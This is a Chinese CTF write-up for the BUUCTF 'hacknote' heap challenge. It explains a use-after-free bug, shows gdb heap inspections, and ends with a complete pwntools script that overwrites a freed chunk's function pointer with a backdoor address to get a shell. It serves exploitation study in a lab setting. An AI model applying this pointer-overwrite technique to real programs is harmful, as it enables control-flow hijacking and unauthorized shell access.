 ### UAF（修改堆地址）

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67c3f627d0e0a243d409afc3.png)

先 checksec

![](https://pic1.imgdb.cn/item/67c3f64ad0e0a243d409afcb.png)

同样是一个菜单管理

![](https://pic1.imgdb.cn/item/67c3f689d0e0a243d409b067.png)

在 IDA 中找到了后门函数

![](https://pic1.imgdb.cn/item/67c3f6b6d0e0a243d409b0f2.png)

add 函数

可以发现创建了两个 chunk，第一个 chunk 是默认的，存放 puts 函数，我们可以控制第二个 chunk

![](https://pic1.imgdb.cn/item/67c3f956d0e0a243d409b5f7.png)

delete，它只释放掉了堆块里的内容，但是没有将指针置 0，存在 uaf 漏洞

![](https://pic1.imgdb.cn/item/67c3fdccd0e0a243d409c212.png)

printf 函数

![](https://pic1.imgdb.cn/item/67c3fdedd0e0a243d409c27b.png)

可以先创建一个堆看看是不是有创建默认堆

```python
add(48,'aaaa')

gdb.attach(r)
```

![](https://pic1.imgdb.cn/item/67c3febcd0e0a243d409c4a7.png)

发现有创建默认堆，申请两个堆，实际上生成了四个堆

```python
add(48,'aaaa')
add(48,'bbbb')

gdb.attach(r)
```

![](https://pic1.imgdb.cn/item/67c400b7d0e0a243d409c910.png)

用 print f打印一个堆块看一下内容，可以看到打印出了 add 创建的第二个 chunk 里的值

![](https://pic1.imgdb.cn/item/67d8cb4f88c538a9b5c00a2d.png)

先 free 掉第一个创建的堆块

```python
delete(0)

gdb.attach(r)
```

![](https://pic1.imgdb.cn/item/67c4020cd0e0a243d409cc10.png)

再次释放第二个堆块

```python
delete(1)

gdb.attach(r)
```

![](https://pic1.imgdb.cn/item/67c40437d0e0a243d409cfe1.png)

我们再申请一个 8 字节的 chunk，写入 shell_addr 看一下堆块的情况

```python
add(8,p32(shell_addr))
gdb.attach(r)
```

![](https://pic1.imgdb.cn/item/67d8ca6e88c538a9b5c00a11.png)

![](https://pic1.imgdb.cn/item/67d8ca9788c538a9b5c00a17.png)

我们现在进行 printf 的话就会跳转到后门函数获取 shell

```python
from pwn import*

#r=remote('node5.buuoj.cn',28389)
r=process('./hacknote')

def add(size,content):
  r.sendlineafter('choice :','1')
  r.sendlineafter('Note size :',str(size))
  r.sendlineafter('Content :',content)

def delete(idx):
  r.sendlineafter('choice :','2')
  r.sendlineafter('Index :',str(idx))

def printf(idx):
  r.sendlineafter('choice :','3')
  r.sendlineafter('Index :',str(idx))

shell_addr = 0x8048945

add(48,'aaaa')
#gdb.attach(r)

add(48,'bbbb')
#gdb.attach(r)

delete(0)
#gdb.attach(r)

delete(1)
#gdb.attach(r)

add(8,p32(shell_addr))
#gdb.attach(r)

r.interactive()
```

